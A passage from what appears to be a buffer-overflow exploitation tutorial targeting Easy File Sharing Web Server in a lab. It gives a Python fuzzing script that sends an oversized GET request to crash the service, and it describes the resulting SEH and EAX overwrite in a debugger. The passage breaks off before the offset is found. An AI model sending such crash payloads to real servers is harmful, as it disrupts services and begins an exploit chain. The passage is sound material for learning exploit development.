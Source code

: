 

As you can see on **Line 1** we are requesting `m0chan.txt` alongside what will be our buffer/pattern. - Let's quickly write a little python script to make this a little simpler.



```python
#!/usr/bin/python
import socket
import sys
import string

buffer = "A" * 5000


payload = "GET %d" + str(buffer) + " HTTP/1.1\r\n"
payload += "Host: bof.local\r\n"
payload += "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.92 Safari/537.36\r\n"
payload += "Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8"


print "[*] Starting to Fuzz GET Variable with %s bytes" %len(payload)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',80))
print "[*] Connected to bof.local on Port 80"
s.send((payload))
s.close()
print "[*] Finished Fuzzing GET Variable with %s bytes" %len(payload)
```



 Once this has finished running providing we have `EFSWS` open in **Immunity** and/or attached we will notice that we have in fact caused a crash, let's analyze the screenshot below and see what we have done.




<p align = "center">
<img src = "https://i.imgur.com/8OQY9ZT.png">
</p>



As you can see we have overrun the address of **nSEH** and **SEH** both with user supplied input, in this case `AAAA` `41414141` - We have also over run something new to us as well... the **EAX Register** - As you can see top right `EAX` contains `41414141` which is our `A` buffer. - This may come in useful later. 

 





### Finding the Offset
